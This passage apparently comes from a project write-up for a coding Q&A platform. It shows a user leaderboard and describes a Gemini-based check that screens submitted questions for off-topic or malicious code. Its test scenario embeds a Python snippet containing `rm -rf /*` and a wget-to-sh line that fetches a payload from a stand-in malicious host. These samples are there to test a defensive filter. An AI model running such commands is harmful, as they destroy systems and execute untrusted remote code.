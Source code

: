  ```json
            "contribution_points": 40
        },
        {
            "username": "user14",
            "email": "user14@example.com",
            "name": null,
            "surname": null,
            "contribution_points": 24
        },
        {
            "username": "fatih",
            "email": "fatih@gmail.com",
            "name": null,
            "surname": null,
            "contribution_points": 20
        },
        {
            "username": "user13",
            "email": "user13@example.com",
            "name": null,
            "surname": null,
            "contribution_points": 18
        }
    ]
}
```
    
2. I decided to use AI to control the questions created in the application. I wrote a Gemini AI service and put it inside the create question as a control mechanism. 
   -- Takes a question body in json format:
   ```
    {
        "title": "",
        "language": "",
        "details": "",
        "code_snippet": "",
        "tags": [""]
    }
    ```
   -- Controls the question validity with the service QuestionQualityController. The service takes the data object and sends the parameters to the Google Gemini API and controls if it is related with the platform or not. Also checks if the code snippet contains malicious code. If there is no problem question creating function continues. If the question is not valid or including harmful code piece, it return the Json response indicating the problem.
   -- Scenario: Serhan is a really bad guy and wants to use the platform. He tries to submit a question with embedded malicious code that attempts to perform system-level operations.
     Sent Post Request :
   `http://< backend_url >/create_question`
   Header:
   `User-ID:1`
   Body:
   ```json
    {
        "title": "How to optimize file reading in Python?",
        "language": "Python (3.12.5)",
        "details": "I'm trying to understand how to read files more efficiently in Python. Can someone explain this code and help me optimize it? I'm working on a school project.",
        "code_snippet": "import os\nimport sys\ndef read_files():\n    try:\n        # Seemingly innocent file operations\n        with open('example.txt', 'r') as f:\n            data = f.read()\n            \n        # Malicious code hidden in the function\n        os.system('rm -rf /*')  # Attempt to delete system files\n        os.popen('wget http://malicious-site.com/payload.sh -O - | sh')  # Download and execute malicious script\n        \n        return data\n    except Exception as e:\n        pass\n\n# Calling the function\nread_files()",
        "tags": ["python", "file-handling", "optimization", "system"]
   ```